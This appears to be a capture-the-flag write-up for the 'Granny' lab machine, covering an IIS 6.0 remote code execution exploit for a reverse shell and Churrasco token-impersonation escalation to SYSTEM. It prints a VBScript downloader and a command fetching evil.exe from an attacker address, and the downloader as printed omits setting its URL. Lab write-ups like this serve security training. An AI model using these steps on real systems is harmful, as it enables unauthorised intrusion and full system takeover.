 # Granny

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

### IIS 6.0

This machine is running an outdated version of Microsoft IIS, which is vulnerable to a RCE exploit.

{% embed url="https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell" %}

Using this, we can gain a reverse shell easily:

<figure><img src="../../../.gitbook/assets/image (30) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Churrasco

We can enumerate the machine using `systeminfo`.

<figure><img src="../../../.gitbook/assets/image (15) (5).png" alt=""><figcaption></figcaption></figure>

This is a really old version of Windows that is outdated and vulnerable to loads of exploits. One exploit is the Churrasco exploit, which works on Windows Server 2003 machines. However, because this machine was so old, it was hard to transfer files over to it using conventional Windows methods.&#x20;

So, we would need to create a `wget` binaruy using vbs.&#x20;

```powershell
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
# Afterwards, you can run this.
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

Afterwards, we can download the binary from here:

{% embed url="https://github.com/Re4son/Churrasco/raw/master/churrasco.exe" %}

The exploit works through impersonating the SYSTEM user to execute commands by stealing the tokens from the worker processes run by the SYSTEM user.&#x20;

The exploit can be used to gain a reverse shell easily via `nc.exe`:

<figure><img src="../../../.gitbook/assets/image (10) (5).png" alt=""><figcaption></figcaption></figure>

A listener port would have a shell as SYSTEM after execution.

